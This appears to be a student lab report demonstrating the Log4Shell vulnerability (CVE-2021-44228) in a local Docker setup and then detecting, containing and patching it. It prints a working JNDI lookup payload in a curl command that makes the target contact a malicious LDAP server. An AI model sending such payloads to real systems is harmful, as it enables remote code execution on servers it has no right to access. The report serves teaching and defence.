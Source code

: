 # Summary Report - Craig Troop
## 24 May 2025

## 1. Archtecture
![Archtecture Diagram](../deliverables/architecture_diagram.png)

As seen above, the architecture for this demonstration is rather simple. We have a vulnerable Java server running in a Docker container, and a malicious LDAP server running on the host. The attacker interacts with the web server through a curl command in a terminal window.

### Assignment Modifications
The provided code did not run, and a few modifications were required.

| Modification | Location | Rationale |
|--------------|----------|-----------|
| Add Log4J | pom.xml | Java defaults to logback if Log4j is not specified. |
| Main Class | Log4ShellDemo.java | Java app will not run without main class. |
| LDAP Server | ldap_server.py | ldap3 is a client library and the provided code did not run. I implemented a simple socket server running on 1389 to serve as the ldap server. |
| content-type | curl command | The provided curl command is interpreted as a string and does not trigger the exploit. Adding strict content typing achieves the desired execution.

## 2. Exploit
This exploit is a remote code execution vulnerability in the Log4j library, reported as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228) (Apache Software Foundation, 2025). Without proper input sanitization, the Java Naming and Directory Interface (JNDI) allows remote code execution on vulnerable servers. To demonstrate this exploit, we use a Spring Boot application running inside a Docker container, configured to use a vulnerable version of Log4j in the backend. We use a Python LDAP server to simulate delivery of a malicious payload. The attacker sends the following curl command to the Java application, which then executes an LDAP request to our malicious server, which redirects the server to a ficticious malicious endpoint:

```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/log```

In a real-world scenario, this malicious endpoint would likely deliver a java class that opens a reverse shell to the attacker, granting access to the Java server. This attack works because the logging backend does not properly santize the input, and interprets the JNDI expression to trigger an outbound LDAP request. The LDAP server is configured to respond to all incoming requests with the malicious payload.

## 3. Mitigation and Response
### Detect
![Container Logs](./Screenshot-1.png)

The easiest method to detect this attack is to observe it in the logs. As shown in the figure above, the red box highlights the curl command execution. This execution causes an error on the Java server because it does not receive the correct LDAP response from our server. This is not important because the remote execution is what we were looking to see.

### Contain
To contain the vulnerability, we stop the affected container. This allows patching before deploying the hardened container and testing to validate the exploit no longer works.

### Eradicate
To eradicate the vulnerability we upgrade the Log4j version to the latest release, 2.24.3. Alternatively, we could remove the Log4j dependency altogether and use the alternative that is included with Java, Logback (Goebelbecker & Aibin, 2024). For this assignment, we upgraded to a secured version of Log4j. We also implement input validation to stop jndi commands without relying on the inherent protection in the hardened package. This provides two layers of defense against this exploit.

### Recover
![Secure Container Deployment](./Screenshot-2.png)

Restarting the hardended container and testing the exploit shows that the vulnerability no longer exists. The red hightlight above shows the input validation prevented the attack before execution.

## 4. References
* Apache Software Foundation. (2025, April 3). *CVE-2021-44228 Detail*. NATIONAL VULNERABILITY DATABASE. https://nvd.nist.gov/vuln/detail/cve-2021-44228
* Goebelbecker, E., & Aibin, M. (2024, July 20). A Guide To Logback. Baeldung. https://www.baeldung.com/logback